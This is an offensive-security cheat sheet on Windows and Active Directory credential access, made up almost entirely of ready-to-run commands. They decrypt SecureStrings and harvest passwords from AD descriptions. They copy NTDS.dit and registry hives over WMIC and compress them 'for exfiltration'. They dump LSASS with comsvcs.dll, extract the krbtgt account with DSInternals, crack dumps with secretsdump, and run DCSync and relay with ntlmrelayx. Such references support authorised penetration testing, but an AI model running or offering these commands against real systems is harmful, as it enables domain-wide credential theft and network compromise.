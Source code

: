 # Credential Access



### SecureString to Plaintext

```powershell
$SecPass = "<SECURE PASS STRING>" | ConvertTo-SecureString; 
(New-Object System.Management.Automation.PSCredential "N/A", $SecPass).GetNetworkCredential().Password; 
```

### Passwords in Description

`ActiveDirectory` Module

```powershell
Get-ADUser -Filter 'Description -like "*password*"' -Properties Description | select name,Description
```

Using `PowerView.ps1`

GitHub: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

```powershell
Find-UserField -SearchField Description -SearchTerm "password"
```

### Volume Shadow Creation

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

{% code overflow="wrap" %}
```powershell
# creating volume shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"

# copying NTDS.dit, SYSTEM and SECURITY files from shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c copy \\[shadow_copy_dir]\\Windows\\NTDS\\NTDS.dit [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SYSTEM [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SECURITY [target_folder]"

# compressing files for exfiltration
7za.exe a -mx3 nt.7z \\\\[AD_IP_address]\\c$\\[target_folder]
```
{% endcode %}



### Dumping LSASS with \`rundll32.exe\`

Same behaviour that would occur if you `Right-Clicked` the process in Task Manager and dumpe LSASS manually.

{% code overflow="wrap" %}
```powershell
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
{% endcode %}





\--------------

### Memory Dump with `Get-StorageDiagnosticInfo`

Source: [https://x.com/0gtweet/status/1440255495797764108](https://x.com/0gtweet/status/1440255495797764108)

{% embed url="https://docs.microsoft.com/en-us/powershell/module/storage/get-storagediagnosticinfo?view=windowsserver2019-ps" %}

{% code overflow="wrap" %}
```powershell
$fname = Get-StorageSubSystem | Select -Property FriendlyName
Get-StorageDiagnosticInfo -StorageSubSystemFriendlyName $fname -IncludeLiveDump -DestinationPath C:\
```
{% endcode %}

### Dumping NTDS with `ntdsutil.exe`

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

### Extracting from NTDS, SYSTEM, SECURITY

You may have to modify the following registry key:

`HKLM\\System\\CurrentControlSet\\Control\\Lsa\\FipsAlgorithmPolicy and set "Enabled" to 0`

Then run this:

{% code overflow="wrap" %}
```powershell
Install-Module DSInternals; Import-Module DSInternals;

$key = Get-BootKey -SystemHivePath '.\registry\SYSTEM';
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=burmat,DC=local' -DBPath '.\Active Directory\ntds.dit' -BootKey $key;
```
{% endcode %}



## SECRETSDUMP

### Extracting NTDS with `ntdsutil.exe`

```powershell
C:\> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

### Offline NTDS Cracking

{% code overflow="wrap" %}
```sh
secretsdump.py -ntds ./active directory/atds.dit -system SYSTEM LOCAL -output secrets_dump.ntds -user-status
```
{% endcode %}

Remove all of the garbage/disabled accounts:

{% code overflow="wrap" %}
```sh
grep -i "Enabled" secretsdump.ntds | awk -F":::" '{print $1":::"}'| grep -v '$:\\|$DUPLICATE\\|IWAM_\\|IUSR_\\|ASPNET\\|HelpAssistant\\|SUPPORT_\\|Guest\\|DefaultAccount\\|HealthMailbox' >> Enabled_Accounts.txt
```
{% endcode %}

### DCSync

```
ntlmrelayx.py -t DCSYNC://172.16.1.200 -smb2support -debug
python3 dementor.py -d burmat.local -u jsmith -p 'S3cur3PASS123$' 10.10.1.141 172.16.1.23 -debug
```



